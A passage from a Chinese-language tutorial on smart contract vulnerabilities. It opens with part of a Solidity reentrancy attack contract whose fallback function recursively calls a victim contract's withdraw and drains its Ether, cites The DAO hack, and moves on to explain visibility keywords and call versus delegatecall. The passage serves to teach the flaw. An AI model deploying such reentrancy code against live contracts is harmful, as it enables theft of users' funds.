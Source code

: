 ```Solidity 
         }
     }
     // withdraw Ether from IDMoney deployed
     function step2(uint256 amount) ownerOnly {
         victim.call(bytes4(keccak256("withdraw(address,uint256)")), this, amount);
     }
     // selfdestruct, send all balance to owner
     function stopAttack() ownerOnly {
         selfdestruct(owner);
     }

function startAttack(uint256 amount) ownerOnly {
         step1(amount);
         step2(amount / 2);
     }

function () payable {
         if (msg.sender == victim) {
             // 再次尝试调用 IDCoin 的 sendCoin 函数，递归转币
             victim.call(bytes4(keccak256("withdraw(address,uint256)")), this, msg.value);
         }
     }
 }
```



使用 remix-ide 模拟攻击流程：

![](https://ws1.sinaimg.cn/large/b6de3d7dgy1fz76bdjxtzg21hc0u7ju4.gif)

著名导致以太坊硬分叉（ETH/ETC）的 The DAO 事件就跟重入漏洞有关，该事件导致 60 多万以太坊被盗。

#### *2. Access Control - 访问控制*

访问控制，在使用 Solidity 编写合约代码时，有几种默认的变量或函数访问域关键字：private, public, external 和 internal，对合约实例方法来讲，默认可见状态为 `public`，而合约实例变量的默认可见状态为 `private`。

- public 标记函数或变量可以被任何账户调用或获取，可以是合约里的函数、外部用户或继承该合约里的函数
- external      标记的函数只能从外部访问，不能被合约里的函数直接调用，但可以使用      this.func() 外部调用的方式调用该函数
- private 标记的函数或变量只能在本合约中使用（注：这里的限制只是在代码层面，以太坊是公链，任何人都能直接从链上获取合约的状态信息）
- internal      一般用在合约继承中，父合约中被标记成 internal 状态变量或函数可供子合约进行直接访问和调用（外部无法直接获取和调用）

Solidity 中除了常规的变量和函数可见性描述外，这里还需要特别提到的就是两种底层调用方式 call和 delegatecall：

- call 的外部调用上下文是外部合约
- delegatecall 的外部调用上下是调用合约上下文

简单的用图表示就是：

![](https://ws1.sinaimg.cn/large/b6de3d7dgy1fz76h3j3bdj20ku0a4t9q.jpg)

合约 A 以 call 方式调用外部合约 B 的 func() 函数，在外部合约 B 上下文执行完 func() 后继续返回 A 合约上下文继续执行；而当 A 以 delegatecall 方式调用时，相当于将外部合约 B 的 func() 代码复制过来（其函数中涉及的变量或函数都需要存在）在 A 上下文空间中执行。
